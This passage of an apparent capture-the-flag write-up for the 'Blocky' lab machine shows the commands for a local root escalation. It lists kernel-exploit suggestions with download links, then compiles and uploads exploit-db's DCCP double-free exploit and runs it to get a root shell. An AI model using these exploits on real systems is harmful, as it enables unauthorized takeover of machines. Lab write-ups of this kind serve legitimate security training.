[+] [CVE-2016-8655] chocobo_root

   Details: http://www.openwall.com/lists/oss-security/2016/12/06/1
   Tags: ubuntu=16.04|14.04
   Download URL: https://www.exploit-db.com/download/40871

[+] [CVE-2016-9793] SO_{SND|RCV}BUFFORCE

   Details: https://github.com/xairy/kernel-exploits/tree/master/CVE-2016-9793
   Download URL: https://raw.githubusercontent.com/xairy/kernel-exploits/master/CVE-2016-9793/poc.c
   Comments: CAP_NET_ADMIN caps OR CONFIG_USER_NS=y needed. No SMEP/SMAP/KASLR bypass included

[+] [CVE-2017-6074] dccp

   Details: http://www.openwall.com/lists/oss-security/2017/02/22/3
   Tags: ubuntu=16.04
   Download URL: https://www.exploit-db.com/download/41458
   Comments: Requires Kernel be built with CONFIG_IP_DCCP enabled. Includes partial SMEP/SMAP bypass

[+] [CVE-2017-7308] af_packet

   Details: https://googleprojectzero.blogspot.com/2017/05/exploiting-linux-kernel-via-packet.html
   Tags: ubuntu=16.04(kernel:4.8.0-41)
   Download URL: https://raw.githubusercontent.com/xairy/kernel-exploits/master/CVE-2017-7308/poc.c
   Comments: CAP_NET_RAW capability is needed OR CONFIG_USER_NS=y needs to be enabled

[+] [CVE-2017-1000112] NETIF_F_UFO

   Details: http://www.openwall.com/lists/oss-security/2017/08/13/1
   Tags: ubuntu=14.04(kernel:4.4.0-*)|16.04(kernel:4.8.0-*)
   Download URL: https://raw.githubusercontent.com/xairy/kernel-exploits/master/CVE-2017-1000112/poc.c
   Comments: CAP_NET_ADMIN cap or CONFIG_USER_NS=y needed. SMEP/KASLR bypass included

[+] [CVE-2017-1000253] PIE_stack_corruption

   Details: https://www.qualys.com/2017/09/26/linux-pie-cve-2017-1000253/cve-2017-1000253.txt
   Tags: RHEL=7(kernel:3.10)
   Download URL: https://www.qualys.com/2017/09/26/linux-pie-cve-2017-1000253/cve-2017-1000253.c

[+] [CVE-2009-1185] udev

   Details: https://www.exploit-db.com/exploits/8572/
   Tags: ubuntu=8.10|9.04
   Download URL: https://www.exploit-db.com/download/8572
   Comments: Version<1.4.1 vulnerable but distros use own versioning scheme. Manual verification needed

[+] [CVE-2009-1185] udev 2

   Details: https://www.exploit-db.com/exploits/8478/
   Download URL: https://www.exploit-db.com/download/8478
   Comments: SSH access to non privileged user is needed. Version<1.4.1 vulnerable but distros use own versioning scheme. Manual verification needed

[+] [CVE-2017-1000367] Sudoer-to-root

   Details: https://www.sudo.ws/alerts/linux_tty.html
   Tags: RHEL=7(sudo:1.8.6p7)
   Download URL: https://www.qualys.com/2017/05/30/cve-2017-1000367/linux_sudo_cve-2017-1000367.c
   Comments: Needs to be sudoer. Works only on SELinux enabled systems

[+] [CVE-2017-1000367] sudopwn

   Details: https://www.sudo.ws/alerts/linux_tty.html
   Download URL: https://raw.githubusercontent.com/c0d3z3r0/sudo-CVE-2017-1000367/master/sudopwn.c
   Comments: Needs to be sudoer. Works only on SELinux enabled systems

notch@Blocky:~$
```

```sh
notch@Blocky:~$ uname -a
Linux Blocky 4.4.0-62-generic #83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
notch@Blocky:~$
notch@Blocky:~$ cat /etc/lsb-release
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=16.04
DISTRIB_CODENAME=xenial
DISTRIB_DESCRIPTION="Ubuntu 16.04.2 LTS"
notch@Blocky:~$
```

[``Linux Kernel 4.4.0 (Ubuntu) - DCCP Double-Free Privilege Escalation``](https://www.exploit-db.com/exploits/41458/)


```sh
root@kali:~/blocky# mv 41458.c pwn.c
root@kali:~/blocky# gcc pwn.c -o pwn
root@kali:~/blocky# scp pwn notch@10.10.10.37:
pwn                                                                                                                                                                       100%   17KB  42.2KB/s   00:00
root@kali:~/blocky#
```

```sh
notch@Blocky:~$ ls
minecraft  pwn  user.txt
notch@Blocky:~$ ./pwn
[.] namespace sandbox setup successfully
[.] disabling SMEP & SMAP
[.] scheduling 0xffffffff81064550(0x406e0)
[.] waiting for the timer to execute
[.] done
[.] SMEP & SMAP should be off now
[.] getting root
[.] executing 0x402043
[.] done
[.] should be root now
[.] checking if we got root
[+] got r00t ^_^
[!] don't kill the exploit binary, the kernel will crash
root@Blocky:~# id
uid=0(root) gid=0(root) groups=0(root)
root@Blocky:~# 
```